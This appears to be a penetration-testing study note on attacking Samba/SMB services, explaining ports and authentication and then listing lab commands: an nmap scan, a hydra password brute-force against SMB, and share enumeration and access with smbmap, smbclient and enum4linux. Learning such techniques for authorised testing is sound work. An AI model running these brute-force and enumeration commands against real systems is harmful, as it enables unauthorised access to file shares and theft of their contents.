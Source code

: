```yaml
---
description: '445'
---
```


# 5 - Exploiting Samba

### **Exploiting SAMBA**

* SMB (Server Message Block) is a network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a local network (LAN).
* SMB uses **port 445 (TCP).** However, originally, SMB ran on top of **NetBIOS using port 139.**
* SAMBA is the Linux implementation of SMB, and allows Windows systems to access Linux shares and devices.
* SAMBA utilizes username and password authentication in order to obtain access to the sever or a network share.
* We can perform a brute-force attack on the SAMBA server in order to obtain legitimate credentials. After obtaining legitimate credentials, we can use a utility called SMBMap in order to enumerate SAMBA share drives, list the contents of the shares as well as download files and execute remote commands on the target.
* We can also utilize a tool called smbclient. smbclient is a client that is part of the SAMBA software suite. It communicates with a LAN Manager server, offering an interface similar to that of the FTP program. It can be used to download files from the server to the local machine, upload files from the local machine to the server as well as retrieve directory information from the server.

## **Practical Demonstration**

1 - Obtain Target IP.

2 - `nmap -sV $ip` .

3 - `hydra -l admin -P /usr/share/metaasploit-framework/data/wordlists/unix_passwords.txt $ip smb` - Perform brute-force attack with hydra against SAMBA service.

4 - `smbmap -H $ip -u admin -p password1` - Perform enumeration of the shares using legitimate credentials.

5 - `smbclient  //$ip/<shareName eg- /shawn or /nancy> -U admin` - connect to a share with legitimate credentials.

6 - `enum4linux -a $ip` - Enumerate a linux system and check if null sessions are allowed on the SAMBA service.

7 - `enum4linux -a -u admin -p password1 $ip` - Same as above but returns a lot more informations if using legitimate credentials.

